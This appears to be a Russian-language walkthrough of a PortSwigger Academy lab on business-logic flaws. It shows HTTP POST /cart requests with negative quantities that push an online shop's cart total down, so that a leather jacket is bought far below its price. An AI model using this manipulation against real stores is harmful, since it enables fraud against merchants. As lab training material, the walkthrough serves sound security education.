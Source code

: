 Сразу залогонимся под данными кредами `wiener:peter` и перейдем на главную страницу
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/5.%20Business%20logic%20vulnerabilities/2.%20High-level%20logic%20vulnerability/pics%20for%20walktrough/1.png)
Согласно заданию, нам необходимо купить кожаный жакет. Перейдем в него
```
GET /product?productId=1
```
И добавим 1 штуку в корзину
```
POST /cart 
...
productId=1&redir=PRODUCT&quantity=1
```
Далее, в процессе покупки несколько изменим параметр количества, чтобы узнать, сможем ли мы провалиться в отрицательные числа
```
POST /cart
...
productId=1&quantity=-2&redir=CART
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/5.%20Business%20logic%20vulnerabilities/2.%20High-level%20logic%20vulnerability/pics%20for%20walktrough/2.png)
Узнав, что можно иметь в корзине отрицательное количество вещей, наберем случайных вещей, чтобы `0 < стоимость необходимого жакета - стоимость остальных < 100$`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/5.%20Business%20logic%20vulnerabilities/2.%20High-level%20logic%20vulnerability/pics%20for%20walktrough/3.png)
и купим его в количестве `-17`
```
POST /cart
...
productId=3&redir=PRODUCT&quantity=-17
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/5.%20Business%20logic%20vulnerabilities/2.%20High-level%20logic%20vulnerability/pics%20for%20walktrough/4.png)
Соттветсвенно, имеем возможность купить необходимый жакет, заплатив гораздо меньше заявленной цены 
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/5.%20Business%20logic%20vulnerabilities/2.%20High-level%20logic%20vulnerability/pics%20for%20walktrough/7.png)
